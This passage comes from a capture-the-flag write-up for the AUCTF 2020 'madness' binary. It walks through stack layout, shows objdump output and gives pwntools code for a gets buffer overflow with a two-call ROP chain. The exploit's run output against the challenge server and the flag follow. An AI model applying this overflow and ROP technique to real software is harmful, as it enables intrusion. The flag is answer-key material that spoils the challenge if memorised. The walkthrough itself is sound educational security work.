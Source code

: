 Recall that before a function is called, the next instruction address (below the call) is pushed to the stack, so that when the function returns it can pop that value to return back to the calling code.  When `get_key2` ends with `ret` the stack will be pointing at `+0x0044`, that (`0x565566de`) will be _popped_ into the instruction pointer and then `get_key1` executed.  That will move the stack pointer back to `+0x0040`, then when `get_key1` starts it pushes the base pointer to the stack, now the stack pointer is back to pointing at `+0x0044`, and then the stack pointer is copied to the base pointer (`ebp`).  The function assumes next in the stack position (`+0x0048`) is the return address followed by any parameters.

You can check this with the following (remember `ebp` = `esp` from this point of view):

```
# objdump -M intel -d challenge | grep feed
    16fd:	81 7d 08 de c0 ed fe 	cmp    DWORD PTR [ebp+0x8],0xfeedc0de
```

When the code compares (`cmp`) `param1` with `0xfeedc0de` it is looking for the value of `param1` (`ebp+0x8`) 2 stack positions down (8 bytes), since the first 4 bytes are the return address (in this case `room4`'s address is the return address to allow another `gets` exploit).  If `set_key4` were called instead, `0xfeedc0de` would end up the return address and SEGFAULT.


#### "Enter something" again, to set key 4 and get the flag

```
p.recvuntil('something: ')

payload  = 28 * b'A'
payload += p32(baseproc + binary.symbols['set_key4'])
payload += p32(baseproc + binary.symbols['get_flag'])
p.sendline(payload)

p.stream()
```

The previous code will go back to `room4`, and since the global flag `unlockHiddenRoom4` is already set, "Enter something: " will prompt for the next attack.

As before, `payload` starts out with 28 `A`s, followed by a short ROP chain of 2 function calls, neither requirement arguments.

Output:

```
# ./exploit.py
[+] Opening connection to challenges.auctf.com on port 30012: Done
[*] '/pwd/datajerk/auctf2020/madness/challenge'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
Damn you beat the house: auctf{gu3ss_th3_h0us3_1sn't_th4t_m4d}
```

Flag: `auctf{gu3ss_th3_h0us3_1sn't_th4t_m4d}`
